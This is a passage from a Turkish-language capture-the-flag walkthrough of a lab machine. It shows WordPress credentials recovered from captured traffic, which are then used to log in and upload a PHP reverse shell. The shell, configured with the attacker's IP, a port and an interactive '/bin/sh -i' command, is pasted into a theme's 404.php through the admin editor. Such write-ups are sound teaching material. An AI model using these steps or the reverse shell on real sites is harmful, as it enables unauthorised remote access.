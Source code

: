 Analiz esnasında post metodu ile gönderilmiş bir istek gördüm ve bu istek tamda istenildiği gibi `wp-login.php` adresine yapılmış. Paket içerisini görüntüleyerek kullanıcı adı ve şifreyi görebiliriz.
`Kullanıcı adı`webdeveloper
`Şifre`Te5eQg&4sBS!Yr$)wf%(DcAd

Post datası içerisinde `key-value` kısımlarının sağlamasını login ekranından yararlanarak yapabiliriz. Görüldüğü üzere html formu içerisinde `name` kısımları ile paket içerisindeki `key` kısımları uyuşmaktadır.

<div align="center">
    <img src="dosyalar/form.png" style="width:100%;">
</div>

Şimdi bu kullanıcı adı ve şifre ile sisteme giriş yapalım. Buradan sonrasında işimiz reverse shell almak olacaktır. Makine bir linux makinesi olduğu için ve eğer kali kullanıyorsanız */usr/share/webshells/php/php-reverse-shell.php* yolundaki kodu kullanarak reverse alabilirsiniz. Bu kodu ayrıca *dosyalar* klasörüne ekledim. Kodda değiştirmemiz gereken noktalar var bunlar bağantının geri döneceği IP adresi ya bizim IP adresimiz. İstersek port numarasını da değiştirebiliriz...
Kod içerisinde değişiklik yapılan yerleri yorum satırı halinde aşağıda belirttim.
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.171.136';  // Bu kısıma kendi IP adresimizi yazıyoruz
$port = 1822;       // İstediğimiz port numarasını yazıyoruz
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Şimdi bu kodu karşı tarafa yükleyelim. Bunun için sisteme gidikten sonra `Appearance` -> `Editor` -> `404.php dosyasını seçelim` -> `Kodumuzu kopyalayıp bu kısma yapıştıralım` -> `Değişiklikleri kaydedelim`
**Not** Select theme to edit: kısmında `Twenty Sizteen` seçili olduğuna dikkat edelim. Yoksa işlemimiz başarılı olmayacaktır.

